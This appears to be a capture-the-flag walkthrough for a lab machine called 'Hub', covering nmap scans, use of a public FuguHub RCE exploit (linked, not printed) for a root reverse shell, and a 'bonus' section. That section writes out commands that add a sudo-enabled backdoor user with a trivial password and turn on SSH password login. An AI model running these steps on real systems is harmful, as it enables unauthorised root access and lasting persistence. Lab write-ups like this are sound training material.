

# Hub

### Contents
- [Set-up](#set-up)
- [Discovery](#discovery)
- [Access](#access)
- [Bonus (Persistence via New Linux User)](#bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target to `/etc/hosts`

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.51.25 target
```

## Discovery

3) Port scanned the target

```
$ nmap -v -p- target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 04:19 UTC
Initiating Ping Scan at 04:19
Scanning target (192.168.51.25) [2 ports]
Completed Ping Scan at 04:19, 0.00s elapsed (1 total hosts)
Initiating Connect Scan at 04:19
Scanning target (192.168.51.25) [65535 ports]
Discovered open port 80/tcp on 192.168.51.25
Discovered open port 22/tcp on 192.168.51.25
Discovered open port 9999/tcp on 192.168.51.25
Discovered open port 8082/tcp on 192.168.51.25
Completed Connect Scan at 04:20, 2.63s elapsed (65535 total ports)
Nmap scan report for target (192.168.51.25)
Host is up (0.0066s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8082/tcp open  blackice-alerts
9999/tcp open  abyss

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.68 seconds
```

Found serving SSH on 22/tcp, HTTP on 80/tcp, and 2 more services I've never heard of on 8082/tcp and 9999/tcp respectively.

4) Fingerprint the found services

```
??$ nmap -v -p 22,80,8082,9999 -A target

... omitted for brevity

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: 403 Forbidden
8082/tcp open  http     Barracuda Embedded Web Server
|_http-server-header: BarracudaServer.com (Posix)
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Type: BarracudaServer.com (Posix)
|   Server Date: Mon, 26 Feb 2024 04:22:26 GMT
|_  WebDAV type: Unknown
|_http-title: Home
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   Server Type: BarracudaServer.com (Posix)
|   Server Date: Mon, 26 Feb 2024 04:22:26 GMT
|_  WebDAV type: Unknown
|_http-title: Home
|_http-server-header: BarracudaServer.com (Posix)
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Issuer: commonName=Real Time Logic Root CA/organizationName=Real Time Logic LLC/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-07-16T19:15:09
| Not valid after:  2074-04-18T19:15:09
| MD5:   6320:2067:19be:be32:18ce:3a61:e872:cc3f
|_SHA-1: 503c:a62d:8a8c:f8c1:6555:ec50:77d1:73cc:0865:ec62
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 04:22
Completed NSE at 04:22, 0.00s elapsed
Initiating NSE at 04:22
Completed NSE at 04:22, 0.00s elapsed
Initiating NSE at 04:22
Completed NSE at 04:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.94 seconds
```

So we have:

- An OpenSSH (ssh) server on 22/tcp
- An Nginx (http) server on 80/tcp
- A Barracuda (http) server on 8082/tcp
- A Barracuda (https) server on 9999/tcp

I'm gonna bet our most promising vector is the Barracuda server on 8082...


4) Navigating to `http://target:8082` in Firefox we find the webapp is "Fuguhub", some kind of self-hosting file server ([docs](https://fuguhub.com/)).

5) Fumbling around the webapp got me redirected to the HTTPS site (what's serving on port 9999), and it got me to "set an admin user" because "there isn't one yet". I set the user `admin:hackerman` with email `admin@hackerman.com`

## Access

6) This is supposed to be an easy box, so chances are we find an RCE in `searchsploit` for "fuguhub":

```
$ searchsploit fuguhub  
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
FuguHub 8.1 - Remote Code Execution             | multiple/webapps/51550.py
------------------------------------------------ ---------------------------------
Shellcodes: No Results
                               
```

7) Looking at the exploit code, it seems to upload a reverse shell to the file server and then try to get the remote server to execute it.

8) I make some changes in the file to adjust for the fact that I already set an "admin user", to account for the non-default SSL port (9999 instead of 443), and to change the target directory of the file server (which didn't work).

See [modified-51550.py](./modified-51550.py) in the current dir for changes. The original is also in [51550.py](./51550.py), so you can diff it with `diff 51550.py modified-51550.py`.

9) I set up a listener to catch the reverse shell, and ran the exploit - with success. That got us access!



Not just access - that got us root!

10) The shell doesn't seem to let us get out of `/var/www/html`, but maybe we can find the flag without getting out.

```
ls -la /root
total 32
drwx------  3 root root 4096 Feb 25 23:17 .
drwxr-xr-x 18 root root 4096 Jun 13  2023 ..
-rw-------  1 root root   73 Jun 15  2023 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-r--r--  1 root root   21 Jun 14  2023 email4.txt
drwxr-xr-x  3 root root 4096 Jun 13  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Feb 25 23:17 proof.txt
cat /root/proof.txt
6ab0140a984d7aecd3d6a61948b7939d
```

Success!

## Bonus

11) Let's set up a new OS user so we can get back in the box via the SSH server on 22/tcp...

```
sudo useradd -m hacker  
echo hacker:hacker | sudo chpasswd
sudo usermod -aG sudo hacker
echo PasswordAuthentication yes >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```

```
sudo systemctl status ssh
? ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-02-26 00:31:05 EST; 5s ago
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 1102 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 1104 (sshd)
      Tasks: 1 (limit: 2322)
     Memory: 1.0M
        CPU: 14ms
     CGroup: /system.slice/ssh.service
             ??1104 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups

Feb 26 00:31:05 debian systemd[1]: Starting OpenBSD Secure Shell server...
Feb 26 00:31:05 debian sshd[1104]: Server listening on 0.0.0.0 port 22.
Feb 26 00:31:05 debian sshd[1104]: Server listening on :: port 22.
Feb 26 00:31:05 debian systemd[1]: Started OpenBSD Secure Shell server.
```

12) Now let's try it

```
??$ ssh hacker@target
hacker@target's password: 
Linux debian 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 25 23:54:37 2024 from 192.168.49.51
$ whoami
hacker
$ sudo whoami
[sudo] password for hacker: 
root
```

Success!

